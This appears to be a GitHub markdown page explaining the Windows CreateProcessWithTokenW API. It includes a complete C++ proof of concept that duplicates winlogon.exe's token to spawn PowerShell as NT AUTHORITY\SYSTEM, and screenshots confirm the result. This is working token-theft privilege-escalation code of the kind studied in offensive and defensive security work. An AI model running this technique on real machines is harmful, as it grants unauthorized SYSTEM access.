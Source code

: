 # Summary

**`CreateProcessWithTokenW`** is a Windows API function originating from **`advapi32.dll`** that creates a new process and its primary thread with a specified token. This function is used when you need to create a process with the security context (identity and privileges) of a different user than the calling process.

The function requires a handle to a primary token, which represents the user under whose context the new process will run. This token can be obtained through various means, such as duplicating an existing token with **`DuplicateTokenEx`**.

Here are the parameters of this function:

```
BOOL CreateProcessWithTokenW(
  HANDLE                hToken,
  DWORD                 dwLogonFlags,
  LPCWSTR               lpApplicationName,
  LPWSTR                lpCommandLine,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCWSTR               lpCurrentDirectory,
  LPSTARTUPINFOW        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

**`CreateProcessWithTokenW`** relies on the Secondary Logon service (seclogon). The Secondary Logon service is used by Windows to allow a user to log on with a different user account than the one currently being used by the operating system session. This service is responsible for creating processes under different security contexts, especially when we need to run applications or tasks with different privileges or user credentials than the currently logged-in user.

![image](https://github.com/DebugPrivilege/WindowsAP1/assets/63166600/f734140b-781d-48c1-9279-d59e3dab071b)


# Proof of Concept

This POC demonstrates obtaining a security token from the winlogon process, and then using it to create an impersonated process running PowerShell. It starts with identifying the process ID of winlogon.exe using process snapshotting, then opens and duplicates its token, and creates a new PowerShell process with that token.

```c
#include <Windows.h>
#include <memory>
#include <iostream>
#include <string>
#include <TlHelp32.h>

// Function to retrieve and print information about the specified token
void PrintTokenUserInformation(HANDLE TokenHandle)
{
    DWORD ReturnLength;
    std::unique_ptr<BYTE[]> TokenInformation;

    // Get the size of the token information
    if (!GetTokenInformation(TokenHandle, TokenUser, nullptr, 0, &ReturnLength))
    {
        DWORD ErrorCode = GetLastError();
        if (ErrorCode != ERROR_INSUFFICIENT_BUFFER)
        {
            std::cerr << "Error getting token information size: " << ErrorCode << std::endl;
            return;
        }
    }
    // Allocate memory for the token information
    TokenInformation = std::make_unique<BYTE[]>(ReturnLength);
    PTOKEN_USER pTokenUser = reinterpret_cast<PTOKEN_USER>(TokenInformation.get());
    if (!GetTokenInformation(TokenHandle, TokenUser, pTokenUser, ReturnLength, &ReturnLength))
    {
        DWORD ErrorCode = GetLastError();
        std::cerr << "Error getting token information: " << ErrorCode << std::endl;
        return;
    }
}


DWORD getWinlogonProcessId()
{
    // Initialize the process ID to 0
    DWORD logonPID = 0;

    // Create a snapshot of the system's processes
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (snapshot == INVALID_HANDLE_VALUE)
    {
        // If the snapshot creation fails, print an error message
        DWORD errorCode = GetLastError();
        char errorMessage[256];
        FormatMessageA(FORMAT_MESSAGE_FROM_SYSTEM, nullptr, errorCode, 0, errorMessage, sizeof(errorMessage), nullptr);
        std::cerr << "Error creating toolhelp snapshot: " << errorCode << " - " << errorMessage << std::endl;
        return logonPID;
    }

    // Iterate through the list of processes
    PROCESSENTRY32W processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32W);
    if (Process32FirstW(snapshot, &processEntry))
    {
        do
        {
            // Check if the process name is "winlogon.exe"
            std::wstring processName = processEntry.szExeFile;
            if (_wcsicmp(processName.c_str(), L"winlogon.exe") == 0)
            {
                // If it is, set the process ID and break out of the loop
                logonPID = processEntry.th32ProcessID;
                break;
            }
        } while (Process32NextW(snapshot, &processEntry));
    }
    else
    {
        // If there is an error enumerating the processes, print an error message
        std::cerr << "Error enumerating processes: " << GetLastError() << std::endl;
    }

    // Close the snapshot handle
    CloseHandle(snapshot);

    // Return the process ID
    return logonPID;
}


void CreateImpersonatedProcess(HANDLE NewToken)
{
    bool impersonatedProcessCreated;

    STARTUPINFO startupInfo = { 0 };
    startupInfo.cb = sizeof(startupInfo);

    PROCESS_INFORMATION processInformation = { 0 };

    // Create a new process with the specified token and logon type
    impersonatedProcessCreated = CreateProcessWithTokenW(NewToken, LOGON_WITH_PROFILE,
        L"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
        nullptr, 0, nullptr, nullptr, &startupInfo, &processInformation);

    // Check if the impersonated process was successfully created. If not, print an error message and return.
    if (!impersonatedProcessCreated)
    {
        DWORD errorCode = GetLastError();
        std::cerr << "Error creating impersonated process: " << errorCode << std::endl;
        return;
    }

    PrintTokenUserInformation(NewToken);
    CloseHandle(NewToken);
}

void PrintCurrentProcessTokenInfo()
{
    // Handle to the current process
    HANDLE hCurrent = GetCurrentProcess();

    // Check if an error occurred while getting the current process
    if (hCurrent == INVALID_HANDLE_VALUE)
    {
        std::cerr << "Error getting current process: " << GetLastError() << std::endl;
        return;
    }

    // Handle to the token for the current process
    HANDLE TokenHandle = nullptr;

    // Open the token for the current process
    BOOL OpenToken = OpenProcessToken(hCurrent, TOKEN_QUERY, &TokenHandle);
    if (!OpenToken)
    {
        std::cerr << "Error opening process token: " << GetLastError() << std::endl;
        CloseHandle(hCurrent);
        return;
    }

    // Print the user information for the token
    PrintTokenUserInformation(TokenHandle);

    // Close the token handle
    CloseHandle(TokenHandle);
}

int main()
{
    // Check the token of the current process
    HANDLE TokenHandle = nullptr;
    HANDLE hCurrent = GetCurrentProcess();
    OpenProcessToken(hCurrent, TOKEN_QUERY, &TokenHandle);
    PrintTokenUserInformation(TokenHandle);
    CloseHandle(TokenHandle);

    // Find the process ID of the winlogon process
    DWORD winlogonPID = getWinlogonProcessId();

    // Obtain a duplicate of the winlogon process's token and create an impersonated process using it
    HANDLE hProcess = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, TRUE, winlogonPID);
    OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_QUERY, &TokenHandle);
    HANDLE NewToken;
    DuplicateTokenEx(TokenHandle, TOKEN_ADJUST_DEFAULT | TOKEN_ADJUST_SESSIONID | TOKEN_QUERY | TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY, NULL, SecurityImpersonation, TokenPrimary, &NewToken);
    CreateImpersonatedProcess(NewToken);

    return 0;
}
```

Here we can see a new console window is launched, executing PowerShell under the **`NT AUTHORITY\SYSTEM`** context.

![image](https://github.com/DebugPrivilege/WindowsAP1/assets/63166600/67d41ef1-ab77-467b-a362-b5fa28f4e137)

We can use **System Informer** as well to view that PowerShell is running as the **`NT AUTHORITY\SYSTEM`** context.

![image](https://github.com/DebugPrivilege/WindowsAP1/assets/63166600/fc8ba0a1-e036-4231-8d07-e4f5ea175720)

